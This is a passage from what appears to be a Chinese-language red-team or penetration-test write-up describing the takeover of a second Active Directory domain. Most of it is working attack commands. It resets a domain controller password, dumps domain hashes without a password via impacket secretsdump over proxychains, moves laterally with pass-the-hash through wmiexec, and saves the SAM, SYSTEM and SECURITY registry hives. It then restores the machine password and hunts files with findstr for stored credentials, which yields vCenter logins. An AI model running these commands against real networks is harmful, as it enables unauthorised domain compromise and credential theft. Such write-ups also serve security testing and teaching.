 随后进行攻击重置 DC 密码：

![](https://gitee.com/fuli009/images/raw/master/public/20221209101714.png)

这个时候就可以直接无密码远程 Dcsync 导出 BBB 域的 hash：

    
    
    proxychains impacket-secretsdump bbb.com/BBB\$@xxx.xxx.30.xxx    -no-pass  
    

![](https://gitee.com/fuli009/images/raw/master/public/20221209101716.png)

然后 wmi 过去：

    
    
    proxychains python3 wmiexec.py -hashes xxxx:xxxx bbb.com/admin@xxx.xxx.30.xxx  
    

![](https://gitee.com/fuli009/images/raw/master/public/20221209101721.png)

这个时候 BBB 域也已经拿下，最后恢复一下密码，不让这个域脱域了就 GG 了：

    
    
    C:\>reg save HKLM\SYSTEM system.save  
    The operation completed successfully.  
      
    C:\>reg save HKLM\SAM sam.save  
    The operation completed successfully.  
      
    C:\>reg save HKLM\SECURITY security.save  
    The operation completed successfully.  
    

全部下载到本地然后获取 $MACHINE.ACC 值：

    
    
    impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL  
    

最后进行恢复：

    
    
    proxychains python3 reinstall_original_pw.py BBBDC xxx.xxx.30.xxx xxxxxxxxx  
    

![](https://gitee.com/fuli009/images/raw/master/public/20221209101722.png)

尝试控密码看看能不能导出 hash，不能导出就说明恢复成功了：

![](https://gitee.com/fuli009/images/raw/master/public/20221209101724.png)

Ok, 已经把 DC 恢复成功，这个时候继续信息搜集发现当前 DC ，还是老样子继续搜集当前已控机器上的各类文件：

    
    
    findstr /c:"username=" /c:"password=" /c:"uid=" /c:"pwd=" /si *.ini *.inf *.txt *.cgi *.conf *.asp *.php *.jsp *.aspx *.cgi *.xml *.log *.new *.bak  
    

幸运的是我得到了当前域的 Vcenter 的链接账号密码信息，最后通过登录到后台：
